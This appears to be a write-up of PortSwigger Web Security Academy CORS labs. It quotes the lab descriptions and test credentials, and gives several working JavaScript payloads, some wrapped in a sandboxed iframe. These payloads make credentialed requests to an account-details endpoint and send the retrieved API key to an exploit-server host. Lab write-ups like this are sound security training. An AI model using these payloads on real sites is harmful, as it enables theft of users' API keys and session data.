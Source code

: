 This is solution proposed from Portswigger which uses `XMLHttpRequest()`:

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

# CORS vulnerability with trusted null origin
> This website has an insecure CORS configuration in that it trusts the "null" origin.
> 
> To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.
> 
> You can log in to your own account using the following credentials: `wiener:peter`

This web application is just like the previous one, just CORS accepts `null` origin.

This is the payload that was used

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a5b002b03d66285c15b953900c600c7.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='exploit-0a6b00ee03b062d6c11c940701ad00ca.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>fetch('https://0a6b00ee03b062d6c11c940701ad00ca.web-security-academy.net/accountDetails',{'credentials':'include'})
.then(res => {return res.json()})
.then(body => { var apikey = body['apikey']; fetch ('https://exploit-0a6b00ee03b062d6c11c940701ad00ca.exploit-server.net/c='+apikey,{'mode':'no-cors'});})</script>"></iframe>
```

# CORS vulnerability with trusted insecure protocols
> This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.
> 
> To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.
> 
> You can log in to your own account using the following credentials: `wiener:peter`doc
